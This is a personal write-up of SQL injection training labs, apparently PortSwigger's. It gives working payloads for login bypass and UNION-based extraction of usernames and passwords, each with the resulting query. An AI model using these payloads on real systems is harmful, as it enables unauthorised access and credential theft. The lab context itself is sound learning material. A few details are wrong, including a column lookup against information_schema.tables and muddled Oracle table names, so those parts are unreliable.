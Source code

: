 # Union Attacks (plus some basics)

Note: the final query is simply a guess of the general structure of what it looks like behind the scenes as we aren't given the source code for the actual queries.  I just found it helpful to visually see code highlighting for some of the query schenanigans that were taking place.

For these attacks I used BurpSuite proxy to intercept requests.  Simply load the lab, and before sending a request to a vulnerable part of the site, enable intercept.  Then when you see the body of the request, send it to repeater.  

## SQLi using WHERE
This was was rather simple as it just invovled injecting a conditional into the query. 

Don't forget to substitute spaces with '+' when making requests.

Solution: `'+OR+1=1--`

Final query: 
``` SQL
SELECT * FROM table WHERE category = ''+OR+1=1--'AND released = 1
```

## SQLi basic application login subversion
This was was also really easy as you could just comment out the logic related to password checking.

Solution: `administrator'--`
Final query: 
```SQL
                                       |    payload   |
SELECT name FROM users WHERE username='administrator'--'AND [password checking logic here]
```

## SQLi union to find # of cols
We can subvert the application logic by selecting Null values from the columns of the table.  If we don't select a value from each column without a WHERE statement, the application will throw an error.  Therefore we can simply keep adding NULL values until the application stops throwing errors.  Note the query is slighlty different Oracle.  

[Note this can also be done using ORDER BY but I found this easier]

Solution: `+UNION+SELECT+NULL,NULL,NULL--`
Final query:
```SQL
                                          |           payload           |
SELECT thing FROM table WHERE category = '' UNION SELECT NULL,NULL,NULL--'[rest of query here]
```

## SQL find column containing text
We used NULL as the values as regardless of the data type of each column, given we selected from each there would be no error.  Now to find which ones are strings we can simply just test each column with a string instead of NULL.

Solution: `+UNION+SELECT+'eee',NULL,NULL` ect ect ect

## SQL union to get data from other tables
First step is to use the previous two methods to find out the number and type of each columns.  We find there are two columns that have strings.  Since we're given the fact that they are named `username` and `password`, we can simply query from both.  Checking for extra columns is useful given there were other columns that would have caused this attack to error.

Solution: `'+UNION+SELECT+username,+password+FROM+users--`
Final query:
```SQL
                                         |                  payload                  |
SELECT * FROM products WHERE category = '' UNION SELECT username,password FROM users--'[rest of query here] 
```
## SQL union multipile tables in single column
Using the previous methods to determine the type and number of columns, we find one that has string values and another that is of another data type.  Therefore to exfiltrate both tables in only one column we must simply append the values of one table to the other.  It may be useful to check the version of SQL the site is running as different SQL flavors have differing sytax for string cocatination.

Solution: `'UNION SELECT NULL,username||password FROM USERS--`
Final query:
```SQL
                                         |                      payload                     |
SELECT * FROM products WHERE category = '' UNION SELECT NULL, username||password FROM USERS--'[rest of query here]
```

## SQL union select version on Oracle
Given we are told that the version is Oracle for this database, we can simply union attatch the version at the end of the query.  Note the unique syntax of Oracle as it always requires a `FROM` and a table with every `SELECT` query so we must modify the payload to find the type and number of tables.  We can remedy this by using the `dual` table which is always present like so: `'+UNION+SELECT+'eee','eee'+FROM+dual--`.  We can then request the banner from the `v$version` table which can be found on the [sql cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

Solution: `'+UNION+SELECT+NULL,BANNER+FROM+v$version--`
Final query:
``` SQL
                                         |                 payload                 |
SELECT * FROM products WHERE category = '' UNION SELECT NULL,BANNER FROM v$version--'[rest of query here]
```

## SQL union select version on non Oracle
Repeat with the previous except you need to test for which version the database is in.  This one turns out to be MySQL.  Substitute accordingly sytax wise.

NOTE: for MySQL you need a space after the double dash to properly comment or use a #.

Solution: `'+UNION+SELECT+@@version,+NULL--+` 

## SQL union select database tables on non Oracle

Note: in this lab, the randomized string after the users, password, and username will be different for your lab.

Use previous methods to find out number and type of columns.  We find there are two string columns.  Most non Oracle SQL databases have a table named `information_schema.tables` which houses information about the tables in the database and within that have a column named `table_name` which houses names about the tables on the database.  We can use this to union the table names of the user info with the following payload: 
`'+UNION+SELECT+table_name,NULL+FROM+information_schema.tables--`

Full query:
```SQL
                                         |                            payload                          |
SELECT * FROM products WHERE category = '' UNION SELECT table_name,NULL FROM information_schema.tables--'
```

Then after finding the user info table name, which is `users_jzmhvt`, we can query from the `information_schema.tables` to find details about the individual table using the following payload:
`+UNION+SELECT+column_name,NULL+FROM+information_schema.tables+WHERE+table_name='users_jzmhvt'`

Full query (payload too long for highlighting lol):
```SQL
SELECT * FROM products WHERE category = '' UNION SELECT column_name,NULL FROM information_schema.tables WHERE table_name='users_jzmhvt'--'
```

Finally we get the column names for username and password `password_rnlbda` & `username_noeqqv` and can directly request the information from the users table with the following payload:
`+UNION+SELECT+username_noeqqv,password_rnlbda+FROM+users_jzmhvt--`
and nab the password.

Final query:
```SQL
                                         |                            payload                            |
SELECT * FROM products WHERE category = '' UNION SELECT username_noeqqv,password_rnlba FROM users_jzmhvt--'
```

## SQL union select database tables Oracle
Repeat previous lab but with Oracle syntax.  Remember in Oracle instead of `information_schema.tables`, Oracle uses all_tables and instead of `table_name`, uses `all_tab_columns`.